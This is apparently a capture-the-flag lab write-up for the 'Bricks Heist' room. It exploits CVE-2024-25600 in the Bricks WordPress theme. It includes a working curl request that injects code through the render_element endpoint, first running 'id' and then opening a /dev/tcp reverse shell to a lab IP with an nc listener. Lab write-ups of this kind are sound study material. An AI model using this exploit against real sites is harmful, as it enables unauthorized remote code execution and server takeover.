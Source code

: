 <h1>Bricks Heist</h1>

<img src="./imgs/https.png" alt="">

<p>nonce: "9bbef0a32a"</p>
<p>CVE-2024-25600</p>

```
curl -k -X POST https://bricks.thm/wp-json/bricks/v1/render_element \
    -H "Content-Type: application/json" \
    -d '{
        "postId": "1",
        "nonce": "9bbef0a32a",
        "element": {
        "name": "container",
        "settings": {
            "hasLoop": "true",
            "query": {
            "useQueryEditor": true,
            "queryEditor": "throw new Exception(`id`);",
            "objectType": "post"
            }
        }
        }
    }'
```

<p>It gives us <b>RCE.</b> Let's change the <code>id</code> command to <i>reverse-shell</i></p>
<code>sh -i >& /dev/tcp/10.2.116.12/4444 0>&1</code>

```
curl -k -X POST https://bricks.thm/wp-json/bricks/v1/render_element \
    -H "Content-Type: application/json" \
    -d '{
        "postId": "1",
        "nonce": "9bbef0a32a",
        "element": {
        "name": "container",
        "settings": {
            "hasLoop": "true",
            "query": {
            "useQueryEditor": true,
            "queryEditor": "throw new Exception(`sh -i >& /dev/tcp/10.2.116.12/4444 0>&1`);",
            "objectType": "post"
            }
        }
        }
    }'
```
<p><strong>Don't forget to set up <code>nc</code> listener</strong></p>

<p>Suspicious Process: nm-inet-dialog</p>